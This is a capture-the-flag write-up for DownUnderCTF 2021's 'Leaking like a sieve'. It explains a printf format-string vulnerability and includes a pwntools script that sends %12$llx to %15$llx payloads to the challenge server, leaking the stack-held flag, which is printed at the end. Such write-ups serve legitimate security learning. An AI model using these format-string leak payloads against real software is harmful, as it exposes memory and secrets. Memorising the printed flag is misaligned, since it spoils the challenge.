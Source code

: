 # Leaking like a sieve

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/images/1.png)

Another easy pwn challenge of DownUnderCTF 2021

Check the ELF

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/images/2.png)

Use IDA to reverse

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/images/3.png)

The program read the flag in `flag.txt` and store it in s buffer, locate at rsp + 0x30

We see that the `printf(format)` function will cause a format string error, so we can leak any value at any address. In this challange, we need to leak the value of the flag at buffer s.

There are many ways to leak flags in this challange. 

  - We can leak the stack base at old_ebp of main function then compute the address of the array s and use %s to leak flag. 

  - Or use the second way that I did, the easier way is to leak each block of 8 characters of the flag. Use payload `%X$llx`, where X is offset. Our array S is located at rsp + 0x30, each offset is 8 bytes long, so let the offset of s be 6, plus 6 because the first 7 parameters in the 64-bit architecture are stored in registers.

The maximum length of flag is 32, so we need leak 4 times, each times 8 charracter, because the %x format will respone value at hex, so we need to use function `byte.fromhex()` to convert it to char.

File [solve.py](/2021/DownUnderCTF2021/Leaking_like_a_sieve/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31918)
flag = ''
s.sendlineafter(b'?\n', b'%12$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%13$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%14$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%15$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recvline().strip().decode('utf-8')).decode('utf-8')[::-1]
s.close()
print(flag)
```

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/images/4.png)

`flag: DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`



